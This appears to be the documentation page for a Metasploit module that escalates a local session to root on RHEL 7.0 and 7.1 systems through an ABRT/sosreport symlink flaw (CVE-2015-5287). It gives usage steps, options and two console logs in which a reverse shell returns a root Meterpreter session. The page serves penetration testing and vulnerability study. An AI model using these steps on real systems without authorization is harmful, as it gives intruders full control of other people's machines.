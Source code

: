 ## Description

  This module attempts to gain root privileges on RHEL systems with
  a vulnerable version of Automatic Bug Reporting Tool (ABRT) configured
  as the crash handler.

  `sosreport` uses an insecure temporary directory, allowing local users
  to write to arbitrary files (CVE-2015-5287). This module uses a symlink
  attack on `/var/tmp/abrt/cc-*$pid/` to overwrite the `modprobe` path
  in `/proc/sys/kernel/modprobe`, resulting in root privileges.

  Waiting for `sosreport` could take a few minutes.


## Vulnerable Application

  This module has been tested successfully on:

  * abrt 2.1.11-12.el7 on RHEL 7.0 x86_64
  * abrt 2.1.11-19.el7 on RHEL 7.1 x86_64


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/abrt_sosreport_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **TIMEOUT**

  Timeout for `sosreport` (seconds) (default: `600`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Red Hat Enterprise Linux 7.0 (x64)

  ```
  msf5 > use exploit/linux/local/abrt_sosreport_priv_esc
  msf5 exploit(linux/local/abrt_sosreport_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/abrt_sosreport_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/abrt_sosreport_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444
  [+] System is configured to use ABRT for crash reporting
  [+] abrt-ccpp service is running
  [+] ABRT package version 2.1.11-12.el7 is vulnerable
  [+] python is installed
  [*] Writing '/tmp/.DcxBT2w' (2756 bytes) ...
  [*] Writing '/tmp/.HUAWYz' (207 bytes) ...
  [*] Launching exploit - This might take a few minutes (Timeout: 600s) ...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.151
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.151:50843) at 2019-04-20 07:21:24 -0400
  [+] Deleted /tmp/.DcxBT2w
  [+] Deleted /tmp/.HUAWYz
  [+] Deleted /tmp/hax.sh
  [*] waiting for sosreport to finish (can take several minutes)....................

  meterpreter > getuid
  Server username: uid=0, gid=1000, euid=0, egid=1000
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 7 (Linux 3.10.0-123.el7.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```


### Red Hat Enterprise Linux 7.1 (x64)

  ```
  msf5 > use exploit/linux/local/abrt_sosreport_priv_esc
  msf5 exploit(linux/local/abrt_sosreport_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/abrt_sosreport_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/abrt_sosreport_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444
  [+] System is configured to use ABRT for crash reporting
  [+] abrt-ccpp service is running
  [+] ABRT package version 2.1.11-19.el7 is vulnerable
  [+] python is installed
  [*] Writing '/tmp/.gFrwiGr' (2756 bytes) ...
  [*] Writing '/tmp/.NA4fwK' (207 bytes) ...
  [*] Launching exploit - This might take a few minutes (Timeout: 600s) ...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.218
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.218:51022) at 2019-04-20 07:23:24 -0400
  [*] waiting for sosreport to finish (can take several minutes)..............

  meterpreter > getuid
  Server username: uid=0, gid=1000, euid=0, egid=1000
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 7 (Linux 3.10.0-229.el7.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

